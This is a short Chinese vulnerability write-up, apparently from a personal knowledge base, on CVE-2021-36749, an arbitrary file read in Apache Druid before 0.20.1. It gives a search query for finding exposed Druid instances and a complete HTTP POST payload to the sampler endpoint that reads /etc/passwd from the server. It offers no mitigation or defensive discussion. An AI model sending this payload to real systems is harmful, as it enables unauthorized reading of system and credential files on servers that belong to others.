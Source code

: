 # Apace Druid存在任意文件读取漏洞(CVE-2021-36749)

# 一、漏洞简介
<font style="color:rgb(36, 41, 46);">Apache Druid是一个实时分析型数据库，旨在对大型数据集进行快速的查询分析（"OLAP"查询)。Druid最常被当做数据库来用以支持实时摄取、高性能查询和高稳定运行的应用场景，同时，Druid也通常被用来助力分析型应用的图形化界面，或者当做需要快速聚合的高并发后端API，Druid最适合应用于面向事件类型的数据。Apace Druid存在任意文件读取漏洞</font>

# <font style="color:rgb(36, 41, 46);">二、影响版本</font>
+ Apache Druid < 0.20.1

# 三、资产测绘
```java
title="Apache Druid"
```

![1718117306587-20ca98cb-dc58-4025-8a8b-2a7a2a1ee289.png](./img/zvg_dvGP6RhRXWMv/1718117306587-20ca98cb-dc58-4025-8a8b-2a7a2a1ee289-937404.png)

# 四、漏洞复现
```java
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 
Content-Length: 478
Content-Type: application/json;charset=UTF-8

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","inputSource":{"type":"http","uris":["file:///etc/passwd"]},"inputFormat":{"type":"regex","pattern":"(.*)","listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965","columns":["raw"]}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{}},"tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![1718117802135-f92f986f-5890-432f-a686-de5f7ae3729e.png](./img/zvg_dvGP6RhRXWMv/1718117802135-f92f986f-5890-432f-a686-de5f7ae3729e-877497.png)



> 更新: 2024-06-17 09:22:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gb0owzvtgrgfqdii>